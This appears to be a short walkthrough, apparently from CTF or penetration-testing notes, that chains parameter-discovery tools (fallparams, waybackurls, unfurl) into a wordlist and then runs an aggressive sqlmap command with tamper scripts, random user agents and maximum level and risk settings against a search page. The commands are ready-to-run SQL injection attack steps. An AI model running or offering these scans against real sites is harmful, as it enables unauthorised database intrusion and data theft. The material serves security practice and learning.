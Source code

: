 SQLMAP:

These will be invaluable for our SQLMap scan.

command sequence incorporating everything:

1. Use `fallparams` to crawl the target URL and gather parameters:
   ```bash
   ./fallparams -u https://ctf.com/Search.aspx -crawl
   ```

2. Use `waybackurls` and `unfurl` to gather additional parameters:
   ```bash
   echo "ctf.com" | ./waybackurls | ./unfurl keys | tee way-unf.txt
   ```

3. Combine all parameter sources into a single, unique wordlist including the top-27 XSS parameters:
   ```bash
   cat parameters.txt top-27-xss-parameter.txt way-unf.txt | sort | uniq > params.txt
   ```

4. Run SQLMap with the generated wordlist and crawling enabled:
   ```bash
   sqlmap -u "https://ctf.com/Search.aspx?postback=true&more=false&jto=1&q=consultant&rad=5&where=dusseldofr&indid=37&indid=4" --technique=T --batch --delay=25 --time-sec=15 --random-agent --tamper=between --tamper=space2comment --proxy=http://127.0.0.1:8080 --level=5 --risk=3 --wordlist=params.txt --crawl=3
   ```

This comprehensive approach combines the strengths of parameter discovery tools with the thoroughness of SQLMap's scanning capabilities.
